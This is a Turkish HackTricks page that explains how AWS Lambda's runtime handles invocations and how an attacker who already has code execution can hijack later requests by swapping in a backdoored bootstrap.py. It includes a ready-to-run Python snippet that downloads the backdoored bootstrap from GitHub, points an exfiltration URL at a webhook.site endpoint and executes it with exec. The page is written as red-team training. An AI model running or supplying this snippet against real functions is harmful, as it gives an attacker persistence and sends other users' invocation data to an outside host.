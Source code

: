# AWS - Lambda İsteklerini Çalmak

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter**'da takip edin 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **HackTricks'e** [**PR göndererek**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **hacking ipuçlarını paylaşın**.

</details>
{% endhint %}

## Lambda Akışı

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**, konteynerin dışında bir süreçtir ve **init** sürecine **çağrılar** gönderir.
2. Init süreci, bazı ilginç uç noktaları açığa çıkararak **9001** portunu dinler:
* **`/2018-06-01/runtime/invocation/next`** – bir sonraki çağrı olayını al
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – çağrı için işleyici yanıtını döndür
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – bir yürütme hatası döndür
3. **bootstrap.py**, init sürecinden çağrıları alıp kullanıcı kodunu çağıran bir döngüye sahiptir (**`/next`**).
4. Son olarak, **bootstrap.py** yanıtı init'e gönderir.

Bootstrap, kullanıcı kodunu bir modül olarak yükler, bu nedenle kullanıcı kodu tarafından gerçekleştirilen herhangi bir kod yürütme işlemi aslında bu süreçte gerçekleşir.

## Lambda İsteklerini Çalmak

Bu saldırının amacı, kullanıcı kodunun, savunmasız isteği işleyen **`bootstrap.py`** süreci içinde kötü niyetli bir **`bootstrap.py`** süreci yürütmesini sağlamaktır. Bu şekilde, **kötü niyetli bootstrap** süreci, istekleri işlemek için init süreciyle **konuşmaya başlayacak** ve **meşru** bootstrap, kötü niyetli olanı çalıştırarak **tuzağa düşecek**, böylece init sürecine istek sormayacaktır.

Bu, kullanıcı kodunun meşru **`bootstrap.py`** süreci tarafından yürütüldüğü için basit bir görevdir. Bu nedenle saldırgan şunları yapabilir:

* Init sürecine mevcut çağrının sahte bir sonucunu gönderin, böylece init, bootstrap sürecinin daha fazla çağrı beklediğini düşünsün.
* Bir istek **`/${invoke-id}/response`**'a gönderilmelidir.
* Invoke-id, meşru **`bootstrap.py`** sürecinin yığınından [**inspect**](https://docs.python.org/3/library/inspect.html) python modülü kullanılarak (burada [önerildiği gibi](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) veya sadece tekrar **`/2018-06-01/runtime/invocation/next`**'e istek yaparak (burada [önerildiği gibi](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)) elde edilebilir.
* Bir sonraki çağrıları işlemek için kötü niyetli bir **`bootstrap.py`** yürütün.
* Gizlilik amacıyla, lambda çağrı parametrelerini saldırganın kontrol ettiği bir C2'ye göndermek ve ardından istekleri normal şekilde işlemek mümkündür.
* Bu saldırı için, sistemden veya [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)'dan **`bootstrap.py`**'nin orijinal kodunu almak, kötü niyetli kodu eklemek ve mevcut lambda çağrısından çalıştırmak yeterlidir.

### Saldırı Adımları

1. Bir **RCE** zafiyeti bulun.
2. **Kötü niyetli** bir **bootstrap** oluşturun (örneğin [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. Kötü niyetli bootstrap'i **çalıştırın**.

Bu işlemleri kolayca gerçekleştirebilirsiniz:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referanslar

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi takip edin** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}
